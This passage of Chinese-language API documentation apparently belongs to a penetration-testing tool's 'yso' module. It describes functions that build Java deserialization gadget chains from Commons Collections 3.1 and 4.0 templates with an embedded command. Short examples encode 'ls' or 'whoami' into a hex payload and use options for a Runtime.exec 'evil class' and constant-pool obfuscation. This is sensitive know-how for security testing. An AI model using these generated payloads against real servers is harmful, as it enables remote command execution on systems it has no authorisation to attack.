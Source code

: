 #### 详细描述
GetCommonsCollections1JavaObject 基于Commons Collections 3.1 序列化模板生成并返回一个Java对象。

这个函数接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

cmd：要设置在Java对象中的命令字符串。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command := &#34;ls&#34; // 假设的命令字符串
javaObject, err := yso.GetCommonsCollections1JavaObject(command)
gadgetBytes,_ = yso.ToBytes(javaObject)
hexPayload = codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```


#### 定义

`GetCommonsCollections1JavaObject(cmd string) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| cmd | `string` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetCommonsCollections2JavaObject

#### 详细描述
GetCommonsCollections2JavaObject 基于Commons Collections 4.0 序列化模板生成并返回一个Java对象。

通过可变参数`options`，用户可以提供额外的配置，这些配置使用GenClassOptionFun类型的函数指定。

这些函数使用户能够定制生成的Java对象的特定属性或行为。

options：用于配置Java对象的可变参数函数列表。

返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetCommonsCollections2JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```
